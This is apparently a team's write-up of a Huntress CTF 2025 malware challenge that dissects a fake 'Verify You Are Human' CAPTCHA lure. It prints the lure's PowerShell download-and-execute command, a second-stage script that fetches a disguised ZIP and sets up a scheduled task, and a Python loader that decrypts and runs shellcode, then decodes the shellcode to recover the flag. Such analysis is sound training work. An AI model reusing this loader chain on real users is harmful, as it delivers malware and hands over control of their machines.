

# Huntress CTF 2025 -- 🐞 Verify You Are Human

- **Team:** r4ph3cks
- **Date:** 01/10/2025

## Challenge Information

- **Category:** 🐞 Malware

- **Description:**
> My computer said I needed to update MS Teams, so that is what I have been trying to do...
> ...but I can't seem to get past this CAPTCHA!

> [!CAUTION]
> This is the `Malware` category. Please be sure to approach this challenge material within an isolated virtual machine.

> [!NOTE]
> Some components of this challenge may be finicky with the browser-based connection. You can still achieve what you need to, but there may be some more extra steps than if you were to approach this over the VPN.
> (i.e., "remove the port" when you need to... you'll know what I mean 😜)


- **Author:** [John Hammond](https://www.youtube.com/@_JohnHammond)

- **Given:** [Website](assets/website/65cdd3d3.proxy.coursestack.com.html)

## Analysis and Solution

Given the website:


And clicking the supposed Cloudflare "Verify You Are Human" CAPTCHA button we are redirected to the following page:


This is a now common malware distribution technique where the user is tricked into opening the Windows run dialog (Win+R) and pasting a command that downloads and executes a malicious script. The command, present at the clipboard was:

```powershell
"C:\WINDOWS\system32\WindowsPowerShell\v1.0\PowerShell.exe" -Wi HI -nop -c "$UkvqRHtIr=$env:LocalAppData+'\'+(Get-Random -Minimum 5482 -Maximum 86245)+'.PS1';irm 'http://65cdd3d3.proxy.coursestack.com:443/?tic=1'> $UkvqRHtIr;powershell -Wi HI -ep bypass -f $UkvqRHtIr"
```

This command downloads a PowerShell script from `http://65cdd3d3.proxy.coursestack.com:443/?tic=1` and saves it to a random file in the user's LocalAppData folder with a `.PS1` extension, then executes it.

Seeing what is being downloaded, we can use `curl` or `wget` to fetch the script (but as said in the challenge note, removing the port 443, or else, changing `http` to `https`):

```bash
curl -o output.ps1 "https://65cdd3d3.proxy.coursestack.com/?tic=1"
```

This gives us the PowerShell script [output.ps1](assets/output.ps1).

This script had the following information:

```powershell
$JGFDGMKNGD = ([char]46)+([char]112)+([char]121)+([char]99);$HMGDSHGSHSHS = [guid]::NewGuid();$OIEOPTRJGS = $env:LocalAppData;irm 'http://65cdd3d3.proxy.coursestack.com:443/?tic=2' -OutFile $OIEOPTRJGS\$HMGDSHGSHSHS.pdf;Add-Type -AssemblyName System.IO.Compression.FileSystem;[System.IO.Compression.ZipFile]::ExtractToDirectory("$OIEOPTRJGS\$HMGDSHGSHSHS.pdf", "$OIEOPTRJGS\$HMGDSHGSHSHS");$PIEVSDDGs = Join-Path $OIEOPTRJGS $HMGDSHGSHSHS;$WQRGSGSD = "$HMGDSHGSHSHS";$RSHSRHSRJSJSGSE = "$PIEVSDDGs\pythonw.exe";$RYGSDFSGSH = "$PIEVSDDGs\cpython-3134.pyc";$ENRYERTRYRNTER = New-ScheduledTaskAction -Execute $RSHSRHSRJSJSGSE -Argument "`"$RYGSDFSGSH`"";$TDRBRTRNREN = (Get-Date).AddSeconds(180);$YRBNETMREMY = New-ScheduledTaskTrigger -Once -At $TDRBRTRNREN;$KRYIYRTEMETN = New-ScheduledTaskPrincipal -UserId "$env:USERNAME" -LogonType Interactive -RunLevel Limited;Register-ScheduledTask -TaskName $WQRGSGSD -Action $ENRYERTRYRNTER -Trigger $YRBNETMREMY -Principal $KRYIYRTEMETN -Force;Set-Location $PIEVSDDGs;$WMVCNDYGDHJ = "cpython-3134" + $JGFDGMKNGD; Rename-Item -Path "cpython-3134" -NewName $WMVCNDYGDHJ; iex ('rundll32 shell32.dll,ShellExec_RunDLL "' + $PIEVSDDGs + '\pythonw" "' + $PIEVSDDGs + '\'+ $WMVCNDYGDHJ + '"');Remove-Item $MyInvocation.MyCommand.Path -Force;Set-Clipboard
```

This script downloads another file from `http://65cdd3d3.proxy.coursestack.com:443/?tic=2`, saves it as a PDF file in a new folder in LocalAppData, extracts it (it is actually a ZIP file), and sets up a scheduled task to run a Python payload contained in the extracted files.


Downloading the supposed PDF file (again, removing the port 443):

```bash
curl -o document.pdf "https://65cdd3d3.proxy.coursestack.com/?tic=2"
```

This gives us the file [document.pdf](assets/document.pdf) which is actually a ZIP file. Renaming it to `document.zip` gives us [document.zip](assets/document.zip) which we can extract to get the files present inside [document_extracted/](assets/document_extracted/).

From all the extracted files, the main one is `cpython-3134.pyc`, which is a compiled Python file. We can use `uncompyle6` to decompile it:

```bash
uncompyle6 cpython-3134.pyc > decompiled.py
```

[decompiled.py](assets/decompiled.py) contains the following code:

```python
import base64
#nfenru9en9vnebvnerbneubneubn
exec(base64.b64decode("aW1wb3J0IGN0eXBlcwoKZGVmIHhvcl9kZWNyeXB0KGNpcGhlcnRleHRfYnl0ZXMsIGtleV9ieXRlcyk6CiAgICBkZWNyeXB0ZWRfYnl0ZXMgPSBieXRlYXJyYXkoKQogICAga2V5X2xlbmd0aCA9IGxlbihrZXlfYnl0ZXMpCiAgICBmb3IgaSwgYnl0ZSBpbiBlbnVtZXJhdGUoY2lwaGVydGV4dF9ieXRlcyk6CiAgICAgICAgZGVjcnlwdGVkX2J5dGUgPSBieXRlIF4ga2V5X2J5dGVzW2kgJSBrZXlfbGVuZ3RoXQogICAgICAgIGRlY3J5cHRlZF9ieXRlcy5hcHBlbmQoZGVjcnlwdGVkX2J5dGUpCiAgICByZXR1cm4gYnl0ZXMoZGVjcnlwdGVkX2J5dGVzKQoKc2hlbGxjb2RlID0gYnl0ZWFycmF5KHhvcl9kZWNyeXB0KGJhc2U2NC5iNjRkZWNvZGUoJ3pHZGdUNkdIUjl1WEo2ODJrZGFtMUE1VGJ2SlAvQXA4N1Y2SnhJQ3pDOXlnZlgyU1VvSUwvVzVjRVAveGVrSlRqRytaR2dIZVZDM2NsZ3o5eDVYNW1nV0xHTmtnYStpaXhCeVRCa2thMHhicVlzMVRmT1Z6azJidURDakFlc2Rpc1U4ODdwOVVSa09MMHJEdmU2cWU3Z2p5YWI0SDI1ZFBqTytkVllrTnVHOHdXUT09JyksIGJhc2U2NC5iNjRkZWNvZGUoJ21lNkZ6azBIUjl1WFR6enVGVkxPUk0yVitacU1iQT09JykpKQpwdHIgPSBjdHlwZXMud2luZGxsLmtlcm5lbDMyLlZpcnR1YWxBbGxvYyhjdHlwZXMuY19pbnQoMCksIGN0eXBlcy5jX2ludChsZW4oc2hlbGxjb2RlKSksIGN0eXBlcy5jX2ludCgweDMwMDApLCBjdHlwZXMuY19pbnQoMHg0MCkpCmJ1ZiA9IChjdHlwZXMuY19jaGFyICogbGVuKHNoZWxsY29kZSkpLmZyb21fYnVmZmVyKHNoZWxsY29kZSkKY3R5cGVzLndpbmRsbC5rZXJuZWwzMi5SdGxNb3ZlTWVtb3J5KGN0eXBlcy5jX2ludChwdHIpLCBidWYsIGN0eXBlcy5jX2ludChsZW4oc2hlbGxjb2RlKSkpCmZ1bmN0eXBlID0gY3R5cGVzLkNGVU5DVFlQRShjdHlwZXMuY192b2lkX3ApCmZuID0gZnVuY3R5cGUocHRyKQpmbigp").decode('utf-8'))
#g0emgoemboemoetmboemomeio
```

Decoding the base64 string inside the `exec` using [CyberChef](https://gchq.github.io/CyberChef/) we get [script.py](assets/script.py) with the following code:

```python
import ctypes

def xor_decrypt(ciphertext_bytes, key_bytes):
    decrypted_bytes = bytearray()
    key_length = len(key_bytes)
    for i, byte in enumerate(ciphertext_bytes):
        decrypted_byte = byte ^ key_bytes[i % key_length]
        decrypted_bytes.append(decrypted_byte)
    return bytes(decrypted_bytes)

shellcode = bytearray(xor_decrypt(base64.b64decode('zGdgT6GHR9uXJ682kdam1A5TbvJP/Ap87V6JxICzC9ygfX2SUoIL/W5cEP/xekJTjG+ZGgHeVC3clgz9x5X5mgWLGNkga+iixByTBkka0xbqYs1TfOVzk2buDCjAesdisU887p9URkOL0rDve6qe7gjyab4H25dPjO+dVYkNuG8wWQ=='), base64.b64decode('me6Fzk0HR9uXTzzuFVLORM2V+ZqMbA==')))
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr), buf, ctypes.c_int(len(shellcode)))
functype = ctypes.CFUNCTYPE(ctypes.c_void_p)
fn = functype(ptr)
fn()
```

This script contains an `xor_decrypt` function that decrypts the provided shellcode using XOR with a key. The shellcode is base64 encoded and then XOR encrypted.

Simplifying the script to just decrypt and print the shellcode we created [shellcode.py](assets/shellcode.py):

```python
import base64
import binascii

def xor_decrypt(ciphertext_bytes, key_bytes):
    decrypted_bytes = bytearray()
    key_length = len(key_bytes)
    for i, byte in enumerate(ciphertext_bytes):
        decrypted_byte = byte ^ key_bytes[i % key_length]
        decrypted_bytes.append(decrypted_byte)
    return bytes(decrypted_bytes)

shellcode = bytearray(xor_decrypt(base64.b64decode('zGdgT6GHR9uXJ682kdam1A5TbvJP/Ap87V6JxICzC9ygfX2SUoIL/W5cEP/xekJTjG+ZGgHeVC3clgz9x5X5mgWLGNkga+iixByTBkka0xbqYs1TfOVzk2buDCjAesdisU887p9URkOL0rDve6qe7gjyab4H25dPjO+dVYkNuG8wWQ=='), base64.b64decode('me6Fzk0HR9uXTzzuFVLORM2V+ZqMbA==')))
print(binascii.hexlify(shellcode))
```

We used `binascii.hexlify` to print the shellcode in hexadecimal format. Running this script gives us the output [hexa.txt](assets/hexa.txt):

```
5589e581ec800000006893d884846890c3c69768c39093926890c4c3c7689c939c9368c09cc6c66897c69c936894c79dc168dec1969168c3c9c4c2b90a00000089e78137a5a5a5a583c7044975f4c644242600c6857fffffff0089e68d7d80b9260000008a06880746474975f7c607008d3c24b940000000b0018807474975fac9c3
```

We then convert this hex string to assembly instructions using [CyberChef](https://gchq.github.io/CyberChef/) getting [assembly.txt](assets/assembly.txt):

```assembly
0000000000000000 55                              PUSH RBP
0000000000000001 89E5                            MOV EBP,ESP
0000000000000003 81EC80000000                    SUB ESP,00000080
0000000000000009 6893D88484                      PUSH 8484D893
000000000000000E 6890C3C697                      PUSH 97C6C390
0000000000000013 68C3909392                      PUSH 929390C3
0000000000000018 6890C4C3C7                      PUSH C7C3C490
000000000000001D 689C939C93                      PUSH 939C939C
0000000000000022 68C09CC6C6                      PUSH C6C69CC0
0000000000000027 6897C69C93                      PUSH 939CC697
000000000000002C 6894C79DC1                      PUSH C19DC794
0000000000000031 68DEC19691                      PUSH 9196C1DE
0000000000000036 68C3C9C4C2                      PUSH C2C4C9C3
000000000000003B B90A000000                      MOV ECX,0000000A
0000000000000040 89E7                            MOV EDI,ESP
0000000000000042 8137A5A5A5A5                    XOR DWORD PTR [RDI],A5A5A5A5
0000000000000048 83C704                          ADD EDI,00000004
000000000000004B 4975F4                          JNE 0000000000000042
000000000000004E C644242600                      MOV BYTE PTR [RSP+26],00
0000000000000053 C6857FFFFFFF00                  MOV BYTE PTR [RBP-00000081],00
000000000000005A 89E6                            MOV ESI,ESP
000000000000005C 8D7D80                          LEA EDI,[RBP-80]
000000000000005F B926000000                      MOV ECX,00000026
0000000000000064 8A06                            MOV AL,BYTE PTR [RSI]
0000000000000066 8807                            MOV BYTE PTR [RDI],AL
0000000000000068 46474975F7                      JNE 0000000000000064
000000000000006D C60700                          MOV BYTE PTR [RDI],00
0000000000000070 8D3C24                          LEA EDI,[RSP]
0000000000000073 B940000000                      MOV ECX,00000040
0000000000000078 B001                            MOV AL,01
000000000000007A 8807                            MOV BYTE PTR [RDI],AL
000000000000007C 474975FA                        JNE 000000000000007A
0000000000000080 C9                              LEAVE
0000000000000081 C3                              RET
```

This shellcode is a typical Windows x86-64 shellcode that decodes and executes a second stage payload. The decoded payload is usually another piece of shellcode or a small executable that performs the main malicious activity.

We used the website [CodeConvert](https://www.codeconvert.ai/assembly-to-c-converter?id=b7394f88-494d-480e-9bb8-21bf297b9f61) to convert the assembly to C code to be easier to read what was happening, we then got [outputCode.c](assets/outputCode.c):

```c
#include <stdint.h>
#include <string.h>
#include <stdio.h>

void main() {
    uint8_t buffer[0x80];
    uint32_t *p = (uint32_t *)buffer;

    // Push the given 10 DWORD values onto the stack (simulate by storing in buffer)
    p[0] = 0x8484D893;
    p[1] = 0x97C6C390;
    p[2] = 0x929390C3;
    p[3] = 0xC7C3C490;
    p[4] = 0x939C939C;
    p[5] = 0xC6C69CC0;
    p[6] = 0x939CC697;
    p[7] = 0xC19DC794;
    p[8] = 0x9196C1DE;
    p[9] = 0xC2C4C9C3;

    // XOR each of the 10 DWORDs with 0xA5A5A5A5
    for (int i = 0; i < 10; i++) {
        p[i] ^= 0xA5A5A5A5;
    }

    // Print the modified values
    for (int i = 0; i < 10; i++) {
        // Transform to little-endian format for printing
        uint32_t val = p[i];
    }

    // Set byte at offset 0x26 in the stack frame to 0
    buffer[0x26] = 0;

    // Set byte at offset -0x81 from RBP to 0 (simulate with a separate variable)
    // Since we don't have RBP here, just declare a variable
    uint8_t rbp_minus_0x81 = 0;

    // Copy bytes from buffer (ESP) to another buffer at RBP-0x80 until zero byte is found
    uint8_t dest[0x80];
    uint8_t *src = buffer;
    uint8_t *dst = dest;
    while (*src != 0) {
        *dst++ = *src++;
    }
    *dst = 0;

    // Fill 0x40 bytes at buffer (RSP) with 1
    memset(buffer, 1, 0x40);
}
```

This C code simulates what the shellcode is doing. It initializes a buffer with specific values, XORs them with a key, and performs some memory operations.

We noticed that the 10 DWORD values pushed onto the stack are XORed with `0xA5A5A5A5`. Reversing this XOR operation on python with the script [generate_flag.py](assets/generate_flag.py):

```python
from pwn import *

p = [0] * 10

p[0] = 0x8484D893;
p[1] = 0x97C6C390;
p[2] = 0x929390C3;
p[3] = 0xC7C3C490;
p[4] = 0x939C939C;
p[5] = 0xC6C69CC0;
p[6] = 0x939CC697;
p[7] = 0xC19DC794;
p[8] = 0x9196C1DE;
p[9] = 0xC2C4C9C3;

output = ""

for i in range(9,-1,-1):
    p[i] ^= 0xA5A5A5A5;
    output += p32(p[i], endian='little').decode('latin-1')

print(output)
```

Running this script gives us the flag.

Flag:

```
flag{d341b8d2c96e9cc96965afbf5675fc26}
```

## Observations

This challenge was really fun and educational, showcasing a common malware distribution technique and the layers of obfuscation used to hide the true intent of the code. It involved web analysis, PowerShell scripting, Python decompilation, shellcode analysis, and reverse engineering, making it a comprehensive exercise in cybersecurity and malware analysis.
